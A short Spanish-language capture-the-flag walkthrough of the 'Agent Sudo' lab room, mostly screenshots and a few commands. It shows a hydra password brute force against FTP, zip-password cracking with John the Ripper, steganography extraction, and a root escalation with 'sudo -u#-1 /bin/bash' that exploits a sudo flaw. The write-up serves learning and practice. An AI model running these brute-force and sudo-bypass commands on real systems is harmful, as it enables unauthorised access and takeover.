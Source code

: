 # Agent Sudo

## Nmap

![alt text](image.png)

## Web

![alt text](image-1.png)

Cambiamos el user agent a R

![alt text](image-2.png)

Cambiamos el user agent a C

![alt text](image-4.png)

## Fuzzing

![alt text](image-3.png)

## FTP

    hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.157.179

![alt text](image-5.png)

Podemos descargar todos los archivos usando ``mget *``

![alt text](image-6.png)

![alt text](image-7.png)

## Steg

    exiftool cutie.png

Podemos ver un Warning ``Trailer data after PNG IEND chunk``

![alt text](image-8.png)

![alt text](image-9.png)

Extraemos el zip de la imagen

    binwalk cutie.png -e

![alt text](image-10.png)

El archivo zip tiene contraseña, le pasamos ``JhonTheRipper``

    zip2john 8702.zip > zip.hashes

    john zip.hashes

![alt text](image-11.png)

Descomprimimos el zip

    7z e 8702.zip

![alt text](image-12.png)

Pasamos el mensaje oculto por ``CyberChef``

![alt text](image-13.png)

Extraemos el mensaje de la otra imagen

![alt text](image-14.png)

![alt text](image-15.png)

## SSH

![alt text](image-16.png)

Descargamos la imagen

    sudo scp james@10.10.157.179:Alien_autospy.jpg ~/

![alt text](image-17.png)

Buscamos la imagen en google. El nombre del incidente es ``Roswell alien autopsy``

## Escalada de Privilegios

![alt text](image-18.png)

Buscamos en google los permisos y encontramos como escalar

    sudo -u#-1 /bin/bash

![alt text](image-19.png)

![alt text](image-20.png)

